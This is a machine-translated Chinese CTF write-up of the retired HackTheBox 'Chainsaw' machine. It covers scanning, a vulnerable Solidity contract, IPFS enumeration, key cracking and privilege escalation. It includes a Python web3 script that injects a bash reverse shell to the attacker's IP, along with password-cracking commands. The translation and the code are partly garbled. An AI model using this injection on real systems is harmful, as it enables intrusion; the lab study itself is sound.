








# 危及区块链

> 原文：<https://medium.com/coinmonks/understanding-learning-and-owning-of-a-blockchain-machine-4804780b9044?source=collection_archive---------0----------------------->

读者们好，在这篇文章中，我只想分享我在一台名为电锯的机器周围工作的经历。我对网络安全一无所知，所以开始做一些黑客盒子的东西来学习。任何像我一样想学习网络安全的新手都可以在 youtube 上观看`ippsec`(帮助很大)、网络导师和黑客 ploit 的视频。我 11 月下旬解决的花了很多时间才解决(将近一周！)我个人很喜欢这台机器，无法摆脱它，我想它大约 10 天前就退役了。机器处理[实性](https://medium.com/coinmonks/solidity/home)，[以太坊](https://medium.com/coinmonks/ethereum/home) [区块链](https://medium.com/coinmonks/blockchain/home)， [IPFS](https://medium.com/coinmonks/ipfs/home) 栈以及更多与[以太坊](https://medium.com/coinmonks/ethereum/home)相关的概念。我会尽可能把这些概念和黑客联系起来。在我的学士学位期间，我致力于[以太坊](https://medium.com/coinmonks/ethereum/home)的开发，从而增加了探索和尝试扎根这台机器的兴趣。在我们开始之前，我觉得你最好了解一下[以太坊](https://medium.com/coinmonks/ethereum/home)区块链、[稳健](https://medium.com/coinmonks/solidity/home)智能合约和 [IPFS](https://medium.com/coinmonks/ipfs/home) 堆栈。

那么，我们开始吧。

我们使用 NMAP 默认扫描'`nmap -sC -sV -sT 10.10.10.142`'运行网络扫描。我们得到:

```
Nmap scan report for 10.10.10.142
Host is up (1.2s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: **Anonymous FTP** **login allowed** (FTP code 230)
| -rw-r--r--    1 1001     1001        23828 Dec 05  2018 WeaponizedPing.json
| -rw-r--r--    1 1001     1001          243 Dec 12  2018 WeaponizedPing.sol
|_-rw-r--r--    1 1001     1001           44 Nov 22 05:03 address.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.xx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:dd:8a:5d:3c:78:d4:41:ff:bb:27:39:c1:a2:4f:eb (RSA)
|   256 3d:71:ff:d7:29:d5:d4:b2:a6:4f:9d:eb:91:1b:70:9f (ECDSA)
|_  256 7e:02:da:db:29:f9:d2:04:63:df:fc:91:fd:a2:5a:f2 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 352.33 seconds
```

然后我运行了所有端口扫描:

```
Prakashs-MacBook-Air:~ prakashashok$ nmap -p- 10.10.10.142 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-22 19:08 EET
Nmap scan report for chainsaw.htb (10.10.10.142)
Host is up (2.8s latency).
Not shown: 37555 closed ports, 27977 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
9810/tcp open  unknown
```

所以我们启用了 ftp 匿名访问。然后我们登录 FTP，使用`mget *`命令将所有文件下载到我们的本地机器上。当我们查看文件时，我们看到一个“`.sol`”扩展名，这告诉我这是一个 [solidity](https://medium.com/coinmonks/solidity/home) 代码，所以我的自然猜测是这是一个具有某种目的的智能合同。address.txt 似乎是智能合约哈希地址。此外，还存在一个未知端口。我猜可能有一个聪明的合同在那个港口运行。

所以一个**智能** **契约**简单来说就是一个在以太网中为进行 transfer()、get_name()等交易而定义的函数的使用协议。智能合同允许你以透明的方式交换任何有价值的东西，包括金钱、股票、财产等，而不需要像管理员这样的中间人。可以把它想象成在[区块链](https://medium.com/coinmonks/blockchain/home)上执行交易时要遵循的一套规则。

(更多信息请点击[这里](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html, https://blockgeeks.com/guides/smart-contracts/)

现在我们来看看 [solidity](https://medium.com/coinmonks/solidity/home) 代码(为了方便查看代码，我使用了 remix ide)和我们拥有的 JSON 文件。



(WeaponizedPing.sol)

注意，所有的函数都是可公开调用的，因为它们的访问说明符(私有的、公共的和受保护的在编程中被称为访问说明符)被赋值为 public。现在，我们有可能将 store variables 值设置为我们的 IP 地址，而不是函数 setDomain()中的 google.com。solidity 中的 PT 修饰符/函数修饰符(或带下划线的变量)可以用来改变函数的性质。下划线 _ 决定了在哪里执行原始函数。因此，通过在我们的机器上执行它，很有可能得到一个反向 shell。

(WeaponizedPing.json)

由于代码是可靠的，我猜测 JSON 文件是部署的执行细节，是我们以 JSON 形式获得的智能契约的 **ABI** 。当我们执行一个智能合同时，我们得到一个已部署合同的 ABI。ABI 代表应用程序二进制接口。它是一个告诉软件(通常是 Web3.js 或 EtherJS 这样的 JavaScript 库)如何与智能合约交互的数组。(更多内容:[此处](https://ethereum.stackexchange.com/questions/234/what-is-an-abi-and-why-is-it-needed-to-interact-with-contracts))。你可以通过在 REMIX IDE(一个 solidity 编译器)中粘贴 solidity Ethereum [这里](https://remix.ethereum.org/)的代码来检查一个样本契约或我们的 WeaponizedPing.sol 的流程。

现在，为了与以太坊[区块链](https://medium.com/coinmonks/blockchain/home)交互，我们需要任何编程语言的 Web3 接口，如 python、node.js 等，以及我们机器上的 netcat 监听器来监听。我查看了 Web3 python 文档和一些视频来检查一些代码。下面是使用 python 的 Web3 接口进行命令注入并获得连接的代码:

```
from web3 import Web3, HTTPProviderimport jsoncontract_address = ‘0x1cEe22E053c7F4E14D85fC51a5E4a7B58667Cd44’contract_data = json.loads(open(“WeaponizedPing.json”, “r”).read())abi =  contract_data[‘abi’]w3 = Web3(HTTPProvider(‘[http://10.10.10.142:9810’](http://10.10.10.xn--142:9810-jp3d)))w3.eth.accounts[1]‘0x272661A72Cecb0883C6843FCE00fla8815f’w3.eth.defaultAccount = w3.eth.Accounts[1]contract = w3.eth.contract(abi=abi, address=contract_address)contract.functions.getDomain().call()‘[google.com](http://google.com)’contract.functions.setDomain(“10.10.14.236; bash -c ‘bash -i >&  /dev/tcp/10.10.14.236/9001 0>&1’”).transact()
```



现在我遍历了目录和文件。我发现加纳切和 [IPFS](https://medium.com/coinmonks/ipfs/home) 要安装了。Ganache 是一个框架，用于开发、部署智能合同并在个性化的[以太坊](https://medium.com/coinmonks/ethereum/home)上测试[可靠性](https://medium.com/coinmonks/solidity/home)合同，比如 chain 和 [IPFS](https://medium.com/coinmonks/ipfs/home) 就像一个分散的数据库，存储在基于[以太坊](https://medium.com/coinmonks/ethereum/home)的[区块链](https://medium.com/coinmonks/blockchain/home)上发生的交易。IPFS 使用 Merkle 链接将文件结构相互链接，每个文件都可以通过人类可读的名称找到，使用的是一种叫做 IPNS 的分散命名系统。

(更多关于它的[这里](https://www.trufflesuite.com/docs/ganache/overview, https://docs.ipfs.io/reference/api/cli/))。

从管理员那里，我们想要访问用户 Bobby，因为我们没有他的访问权限，我们对文件夹中与用户 Bobby 相关的任何内容都感兴趣。**在。/ipfs 文件夹运行命令 ipfs 引用本地**获取我们在[区块链](https://medium.com/coinmonks/blockchain/home)实例上的事务的本地引用:



在图中，我们看到所有的事务都存储在 IPFS T21 堆栈中。因为我们对 bobby 用户感兴趣，所以我们寻找他存储的事务的散列名称来查看它的细节(简单地做[IPFS](https://medium.com/coinmonks/ipfs/home)refs local | grep“bobby”)。这样做时，我们会收到一封与 Bobby 相关的电子邮件，这是一封带有 base64 编码的对话的质子邮件，其中包含一个名为 **bobby.key** 的文件，这是一个 RSA 私钥。



现在花了几天时间到这里，然后发生了这种情况。我不知道如何破解 RSA 密钥，但是我的同事 [Vijith](https://twitter.com/vijithvellora)) 帮助我破解了 RSA 密钥，并且很大程度上帮助我 SSH 到 Bobby 的实例中进行升级。我们用开膛手约翰来破解它，并在 youtube 上查看了 ippsec 的视频以寻求帮助。我们用 [**sshng2john**](https://github.com/truongkma/ctf-tools/blob/master/John/run/sshng2john.py) **破解了 RSA 密钥。**

```
john --wordlist=/usr/share/wordlists/rockyou.txt bobby.key.john
```



现在我们可以进入 bobby 了:

```
ssh -i bobby.key@10.10.10.142.
```

我们在执行 ls 命令时获得用户标志。我们有一些目录，即项目和资源。然后，我们寻找一个文件，该文件有一个实例将我们连接到主网络的根目录。在项目文件夹中，我们找到了 ChainsawClub 二进制文件，在执行它时，我们会得到如下登录信息:



现在在同一个目录中(即/projects/Chainsaw)，我们有 Chainsaw.sol 和 Chainsaw.json。这就像是从开始的 [solidity](https://medium.com/coinmonks/solidity/home) 代码开始的似曾相识的感觉。我们查看代码，我回到混合 IDE 并检查代码。



所以再次浏览代码告诉我，我可以创建并调用 setUsername 和 setPassword 来登录 ChainsawClub 主网络。我创建了用户名(用户，试用)和密码(用户，试用)并尝试登录，正如预期的那样，它成功了，我们是根用户。



为了得到`R00T`标志，我们在`sbin`目录中做了`ls`并四处浏览以了解一些正在使用的工具和已经安装的`bmap`。在谷歌上，我了解到 Bmap 是关于隐藏在 Unix 环境中的文件内容。于是运行命令:`bmap - - mode slack root.txt`授旗。

我从机器中得到的收获是:

1.  FTP 匿名访问是导致访问 [solidity](https://medium.com/coinmonks/solidity/home) 代码和地址的第一个 bug。
2.  机器在 solidity 契约中向我解释了糟糕的编码实践，它将 public 指定为某些函数的访问说明符，如果这是一个私有[以太坊](https://medium.com/coinmonks/ethereum/home)网络，这些函数就不应该被未认证的用户调用。

总而言之，这是我的第三台机器，我非常喜欢它，尽管它花了很多时间和时间来解决问题，并做了一个全面的记录:}

> [在您的收件箱中直接获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[](https://coincodecap.com/?utm_source=coinmonks)[](https://coincodecap.com)